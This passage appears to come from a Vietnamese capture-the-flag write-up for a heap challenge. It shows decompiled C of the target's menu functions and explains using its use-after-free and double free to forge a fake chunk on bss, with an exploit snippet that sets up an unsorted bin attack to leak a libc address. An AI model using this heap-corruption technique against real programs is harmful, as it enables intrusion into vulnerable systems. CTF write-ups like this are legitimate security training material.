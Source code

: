 ```c
int sub_400B14()
{
  unsigned __int64 size_ptr; // rax
  int size; // [rsp+8h] [rbp-8h]

  printf("Size:");
  size_ptr = read_size();
  size = size_ptr;
  if ( size_ptr <= 0xFF )
  {
    ptr = malloc(size_ptr);
    printf("Data:");
    sub_400A25(ptr, (unsigned int)(size - 16));
    LODWORD(size_ptr) = puts("Done !");
  }
  return size_ptr;
}
```

- option2 đơn giản là free(ptr)

- option3:  ta sẽ được đọc dữ liệu của `bss`

```c
ssize_t sub_400B99()
{
  printf("Name :");
  return write(1, &unk_602060, 0x20uLL);
}
```

- option4 sẽ thoát chương trình


- vậy bài này ta chỉ có thể malloc 1 chunk duy nhất , nhưng ta có `UAF` và `doublefree` , ở phiên bản libc này sẽ không check `doublefree` và ta có thể thực hiện nó dễ dàng 
- trước hết ta cần suy nghĩ để làm sao leak libc , ta cần libc để có thể lấy shell , ở đây sẽ có 2 cách để leak , đầu tiên sẽ là `Unsorted Bin Attack` 

- the unsorted bin attack cho phép địa chỉ `main arena` được ghi vào 1 địa chỉ tùy ý khi con trỏ bk của chunk được free có thể bị thao túng 
- cách 2 sẽ là tấn công fsop 

- Unsorted Bin Attack: trước hết ta sẽ tận dụng `double free` và ta có thể fake 1 chunk trên bss , ta cần làm là đặt `bk` của chunk đó là `address+0x10` , và khi chunk đó được free , địa chỉ được lưu tại bk-0x10 sẽ chứa địa chỉ của main_arena , và ta kết hợp với option 3 để có thể leak 

- trông nó sẽ như sau: 

```css
 fakechunk = flat(
            0,0x421,
            0,0,
            0,0x0000000000602060+0x10
            )
    input()
    sa(b'Name:',b'kuvee')
    add(0x60,b'aaaa')
    free()
    free()
    add(0x60,p64(0x0000000000602060))
    add(0x60,b'bbbb')
    add(0x60,fakechunk)
    free()
```

